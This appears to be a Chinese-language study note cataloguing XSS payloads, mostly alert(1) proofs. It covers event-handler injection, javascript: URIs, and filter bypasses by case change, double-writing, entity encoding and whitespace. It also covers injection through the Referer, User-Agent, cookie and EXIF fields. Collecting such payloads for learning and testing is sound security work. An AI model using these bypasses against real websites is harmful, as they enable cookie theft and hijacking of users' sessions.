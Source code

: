 常见攻击方式：

1注入攻击

2上传漏洞攻击

3跨站攻击（https://book.2cto.com/201506/52201.html）
跨站攻击最常见的方式是通过窃取cookie或欺骗打开木马网页等，取得重要的资料

4数据库入侵

 


闭合引号   ```value="">"       value="">onmouseover="alert(1)"```


onmouseover="  //当鼠标进入div元素时触发

onmouseenter=alert() //当鼠标进入div元素时触发,在子元素上也会触发(p 和 span)

onclick=alert() //鼠标点击时就会触发

onchange=alert() //在域的内容改变时发生

oninput=alert() //在用户输入时触发

onmouseover=alert()//鼠标移动到就会触发


```<iframe src=javascript:alert('xss')></iframe>```


```<a href=javascript:alert(1)>test</a>```


大小写转换绕过 ```<a Href="javascript:alert('1')">try</a>```

```<a Href="java&#115;cript:alert('1')">try</a>```


php str_replace()   双写绕过  ```<a hhrefref=javasscriptcript:alert(1)>test</a>```

Unicode编码转换  ```javasc&#114;ipt:alert('1')```  (不可转换标签属性)

```javascript:alert(1)/*http://www*/```     加上注释是为了不影响执行

```javascript:alert(1)//http://www*/```     加上注释是为了不影响执行

```keyword=<script>alert(1)</script>&t_sort="onmouseover="alert(1)"type="txt"```

插入 type="txt" 会忽略后面的type="hidden"


$str11=$_SERVER['HTTP_REFERER']
在php中，可以使用$_SERVER[‘HTTP_REFERER’]来获取HTTP_REFERER信息

引导用户代理到当前页的前一页的地址（如果存在）。由 user agent 设置决定。

并不是所有的用户代理都会设置该项，有的还提供了修改HTTP_REFERER 的功能。

简言之，该值并不可信,可用hackbar修改，如图

![](01.PNG)


$str11=$_SERVER['HTTP_USER_AGENT']
$str11=$_COOKIE["user"]

[图虫EXIF查看器alpha版](https://exif.tuchong.com/)   查看exif信息的网站
修改图片的exif信息，上传到相应网站，然后达到执行XSS的效果

```<img src=x onerror=alert(1)>```

ng-include  在 angular.js 包含外部文件

onerror 事件： 会在文档或图像加载过程中发生错误时被触发。

在装载文档或图像的过程中如果发生了错误，就会调用该事件句柄。

支持该事件的 HTML 标签：```<img>, <object>, <style>```

支持该事件的 JavaScript 对象：window, image

空格绕过 ```<img%0a%0dsrc=x%0a%0donerror=alert(1)>```

![](2.jpg)




